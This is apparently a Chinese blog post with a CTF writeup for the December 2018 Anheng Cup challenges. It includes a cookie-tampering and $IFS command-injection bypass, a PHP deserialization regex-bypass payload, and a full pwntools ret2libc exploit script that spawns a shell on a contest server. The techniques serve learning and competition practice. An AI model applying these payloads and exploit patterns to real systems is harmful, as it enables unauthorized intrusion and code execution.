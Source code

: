 ```yaml
---
layout: post
title: 2018年安恒杯12月月赛writeup
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
  - pwn
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)

## web

### ezweb（100分）:
一个网站，网站首页抓包在cookie里有一个user参数，解码发现时user，改成admin重新提交后跳转到admin.php。（ps:扫目录扫出admin.php，直接在admin.php改user参数没用，必须要从index跳转，很坑。。。）
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-1.png)
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-2.png)
之后是一个框，可以直接命令执行，空格被过滤，用$IFS绕过即可，flag在系统根目录。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-3.png)

### web2（200分）

源码已经给了，就是一个反序列化，正则是要求`o:`后面不能接数字，后面加一个加号可以绕过，注意提交的时候加号要url编码，不然会被当成空格。
payload:`O:+4:"baby":1:{s:4:"file";s:8:"flag.php";}`
```
 <?php  
@error_reporting(1); 
include 'flag.php';
class baby 
{   
    public $file;
    function __toString()      
    {          
        if(isset($this->file)) 
        {
            $filename = "./{$this->file}";        
            if (file_get_contents($filename))         
            {              
                return file_get_contents($filename); 
            } 
        }     
    }  
}  
if (isset($_GET['data']))  
{ 
    $data = $_GET['data'];
    preg_match('/[oc]:\d+:/i',$data,$matches);
    if(count($matches))
    {
        die('Hacker!');
    }
    else
    {
        $good = unserialize($data);
        echo $good;
    }     
} 
else 
{ 
    highlight_file("./index.php"); 
} 
?> 
```

## misc

### misc1(100分）
一个压缩包，密码提示如下，到最后都没人做出来，后来又放了提示`解压密码不是时间；8进制`比赛结束有人给出了密码`!(()!@)6125dou `，是csdn泄漏的密码库里没有重复的密码。。。这脑洞。后面也没做
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc1-1.png)
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc1-2.jpeg)

### misc2(100分）
签到题，关注公众号，什么牛不会跑，答案是蜗牛
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc2-1.jpeg)

### misc3(100分)
给了一个加密的压缩包，一个txt，压缩包里也有这个txt，比较一下crc发现一样，明文爆破就行了。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc3-1.png)
然后是一个docx文件，后缀名改成zip解压，`word\document.xml`里有一串md5，就是flag
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc3-2.png)
### misc4(100分)
一张png，我的mac下打不开，但是windows下能正常打开，说明图片高度有问题（mac大法好）。把高度和长度改成一样的，出现一段编码，因为末尾超过了两个==，猜测是base32，最后面再加上一个=base32解码即可。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc4-1.png)

## pwn

### pwn1(100分)
很简单的栈溢出，120个字符溢出，开了nx保护，不能写shellcode，可以ret2libc。
```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"
context.binary = './messageb0x'
elf=ELF('./messageb0x')
# io=process("./messageb0x")
# io=gdb.debug("./messageb0x")
io=remote('101.71.29.5',10009)


putsplt=elf.plt['puts']
putsgot=elf.got['puts']
mainaddr=elf.symbols['process_info']
io.sendafter('are:\n','a\n')
io.sendafter('address:\n','b\n') 

payload="A"*92+p32(putsplt)+p32(mainaddr)+p32(putsgot)
io.sendlineafter('say:\n',payload)
# print io.recvuntil('Thank you !\n')[0:4]
io.recvuntil('Thank you !\n')
putaddr=u32(io.recv()[0:4])

print hex(putaddr)

obj = LibcSearcher("puts", putaddr)
libcbase=putaddr-obj.dump("puts")
systemaddr=libcbase+obj.dump("system")
straddr=libcbase+obj.dump("str_bin_sh")

io.send('a\n') 
io.sendafter('address:\n','b\n')
payload="A"*92+p32(systemaddr)+p32(mainaddr)+p32(straddr)
io.sendlineafter('say:\n',payload)
io.interactive()
```

[1]: https://www.linkedbyx.com/home